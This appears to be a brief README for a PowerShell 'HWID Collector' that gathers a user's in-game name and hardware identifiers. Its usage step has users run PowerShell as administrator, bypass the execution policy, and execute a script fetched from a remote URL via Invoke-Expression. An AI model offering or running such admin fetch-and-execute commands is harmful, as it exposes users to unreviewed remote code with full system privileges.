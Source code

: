 
# HWID Collector

A **borderless** PowerShell script that collects your **IGN** and HWID (CPU, Memory, Disk) with a **dark**, draggable UI.

**Usage**  
1. Run powershell as admin and paste this code in  ```powershell -Command "Set-ExecutionPolicy Bypass -Scope Process; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/HwidChecker/main/hwid.ps1')"``` 
2. Enter IGN.  
3. Click “Collect HWID Info.”  
4. Click “Close” or “✕” to exit.
